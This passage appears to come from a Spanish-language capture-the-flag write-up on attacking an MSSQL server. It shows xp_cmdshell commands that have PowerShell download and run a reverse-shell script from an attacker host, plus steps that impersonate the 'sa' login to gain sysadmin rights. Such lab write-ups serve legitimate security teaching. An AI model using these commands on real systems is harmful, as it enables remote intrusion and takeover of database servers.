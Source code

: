 ```sql
EXEC xp_cmdshell 'powershell -c "IEX (New-Object Net.WebClient).DownloadString('http://tu_ip:puerto/shell.ps1')"';
```

Recuerda modificar la IP, el puerto y el nombre de tu archivo. Si no funciona, intentamos con **iwr** o **Invoke-WebRequest**.

<figure>
<img src="/assets/img/Freelancer/imagen38.png" alt="Error en la Solicitud">
</figure>

```sql
EXEC xp_cmdshell 'powershell -c "IEX (iwr -usebasicparsing http://10.10.14.11:8000/reverse-powershell.ps1)"';
```

Sin embargo, encontramos un error. Para habilitar **xp_cmdshell**, necesitamos ejecutar algunos comandos previos en MSSQL para obtener privilegios en la base de datos. 

Aquí hay un desglose de los pasos:

#### 1. Obtener el nombre del propietario de cada base de datos
```sql
SELECT suser_sname(owner_sid) FROM sys.databases;
```
- **`sys.databases`**: Contiene información sobre cada base de datos en el servidor.
- **`owner_sid`**: Identificador de seguridad del propietario de la base de datos.

#### 2. Verificar si el usuario es un `sysadmin`
```sql
EXECUTE AS LOGIN = 'sa';
SELECT IS_SRVROLEMEMBER('sysadmin');
```
- **`EXECUTE AS LOGIN = 'sa'`**: Cambia el contexto de ejecución al usuario `sa`.
- **`IS_SRVROLEMEMBER('sysadmin')`**: Verifica si el usuario actual es miembro del rol `sysadmin`.
